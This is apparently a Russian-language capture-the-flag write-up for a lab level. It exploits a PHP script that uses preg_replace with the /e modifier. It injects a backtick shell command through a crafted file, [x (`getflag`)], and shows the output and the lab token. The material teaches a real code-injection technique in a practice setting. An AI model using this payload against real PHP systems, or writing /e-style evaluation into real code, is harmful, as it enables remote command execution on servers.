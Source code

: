 1. Домашняя папка содержит исполнительный файл level06 и PHP-файл level06.php

#!/usr/bin/php
<?php
	function y($m)
	{
		$m = preg_replace("/\./", " x ", $m);
		$m = preg_replace("/@/", " y", $m);
		return $m;
	}

	function x($y, $z)
	{
		$a = file_get_contents($y);
		$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
		$a = preg_replace("/\[/", "(", $a);
		$a = preg_replace("/\]/", ")", $a);
		return $a;
	}

	$r = x($argv[1], $argv[2]);
	print $r;
?>

Код на вход берет имя файла, загружает из него содержимое, видоизменяет его и выводит в консоль.

2. После недолгого поиска в сети оказалось, что preg_replace в сочетании с модификатором /e имеет уязвимость: он может выполнить код на PHP, помещенный извне в виде текста.
https://medium.com/@isharaabeythissa/command-injection-preg-replace-php-function-exploit-fdf987f767df
https://www.php.net/manual/en/function.preg-replace.php
3. Создадим файл /tmp/php_exploit
4. В данный файл нужно подать содержимое, чтобы после модификации \[x (.*)\] оно преобразовалось в исполняемую команду getflag. Содержимым будет
[x (`getflag`)]
5. Выполняем:
-> ./level06 /tmp/php_exploit
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
6. Получаем токен для перехода на level07: wiok45aaoguiboiki2tuin6ub
